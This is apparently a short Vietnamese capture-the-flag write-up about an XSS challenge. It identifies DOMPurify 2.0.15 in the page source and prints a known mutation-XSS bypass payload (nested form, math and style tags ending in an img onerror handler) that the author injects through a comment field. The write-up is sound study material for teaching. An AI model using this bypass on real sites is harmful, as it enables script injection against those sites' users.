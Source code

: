 **Yêu cầu: Sử dụng html để chèn XSS**
![image](https://user-images.githubusercontent.com/62832067/150782475-5012828c-ee0f-4171-b23a-2353184f3412.png)
Trong source code có hiện tên phiên bản domPurify 2.0.15 và dễ dàng tìm được payload XSS của phiên bản này trên google
``` html
<form>
<math> <mtext>
</form><form>
<mglyph>
<style></math><img src onerror=alert(1)>
  ```
  <br> Ta chèn payload vào phần comment, chú ý tới định dạng của input là xong 
  ![image](https://user-images.githubusercontent.com/62832067/150782703-4e8c4a5f-9f33-4cce-8127-f278ee8a3963.png)
  ![image](https://user-images.githubusercontent.com/62832067/150782952-66b30a4f-edfa-4744-ae64-2d92fa21c780.png)




